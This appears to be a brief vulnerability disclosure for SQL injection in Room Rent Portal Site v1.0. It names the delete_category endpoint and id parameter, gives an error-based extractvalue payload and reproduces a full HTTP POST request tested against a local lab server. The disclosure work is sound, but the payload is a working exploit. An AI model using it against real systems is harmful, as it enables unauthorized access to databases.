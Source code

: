 # room-rent-portal-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15301/room-rent-portal-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /rrps/classes/Master.php?f=delete_category

Vulnerability location:/rrps/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/rrps/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/rrps/admin/?page=categories
Cookie: PHPSESSID=h4hpbcj74nsiroalrkj8o2251s

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/room-rent-portal-site/sql.gif?raw=true)

